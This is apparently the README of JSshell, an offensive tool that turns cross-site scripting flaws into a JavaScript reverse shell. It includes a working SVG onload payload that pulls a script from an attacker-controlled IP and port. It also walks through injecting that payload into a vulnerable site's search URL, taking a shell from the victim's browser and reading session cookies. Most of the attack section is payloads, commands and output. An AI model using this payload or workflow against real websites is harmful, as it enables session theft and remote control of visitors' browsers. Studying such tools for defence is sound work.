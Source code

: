 # JSshell
JSshell - a JavaScript reverse shell. This using for exploit XSS remotely, help to find blind XSS, ...

This tool works for both Unix and Windows operating system and it can running with both Python 2 and Python 3. This is 
a big update of JShell - a tool to get a JavaScript shell with XSS by s0med3v. JSshell also doesn't require Netcat (different from other javascript shells).

# Usage
#### Generate JS reverse shell payload:  `-g`
#### Set the local port number for listening and generating payload (By default, it will be set to 4848):  `-p`
#### Set the local source address for generating payload (JSshell will detect your IP address by deault):  `-s`
#### Set timeout for shell connection (if the user exit page, the shell will be pause, and if your set the timeout, after a while without response, the shell will automatically close):  `-w`
#### Execute a command when got the shell:  `-c`

#### Example usages:
- `js.py`
- `js.py -g`
- `js.py -p 1234`
- `js.py -s 48.586.1.23 -g`
- `js.py -c "alert(document.cookie)" -w 10`

#### An example for running JSshell:
This is an example for step-by-step to exploit remote XSS using JSshell.

First we will generate a reverse JS shell payload and set the shell timeout is 20 seconds:

```
~# whoami
root
~# ls
README.md   js.py
~# python3 js.py -g -w 20
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>

Listening on [any] 4848 for incoming JS shell ...
```

Now paste this payload to the website (or URL) that vulnerable to XSS:

`https://vulnwebs1te.com/b/search?q=<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>`

Access the page and now we will see that we have got the reverse JS shell:

```
    __
  |(_  _ |_  _  |  |
\_|__)_> | |(/_ |  |
                      v1.0

Payload:
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},1248)>

Listening on [any] 4848 for incoming JS shell ...
Got JS shell from [75.433.24.128] port 39154 to DESKTOP-1GSL2O2 4848
$ established
$ the
$ shell
$
$
$ help
JSshell using javascript code as shell commands. Also supports some commands:
help                  This help
exit, quit            Exit the JS shell
$
```
Now let's execute some commands:

```
$ var test = 'hacked'
$ alert(hacked)

```
And the browser got an alert:  `hacked`

```
$ prompt(document.cookie)

```
And the browser print the user cookies:  `JSESSION=3bda8...`

```
$ exit
~# whoami
root
~# pwd
/home/shelld3v
~#
```

And we quited!


# Author
This created by shelld3v, hacking at HackOne and Bugcrowd with a secret account! This tool is inspired by JShell (s0med3v), using the BruteLogic payload. JSshell 2.0 will has some new features that include:

- More payloads for `<img>`, `<script>`, ...
- Some shortcut commands: print the current session, domain, endpoint, ...
- Better GUI  
...
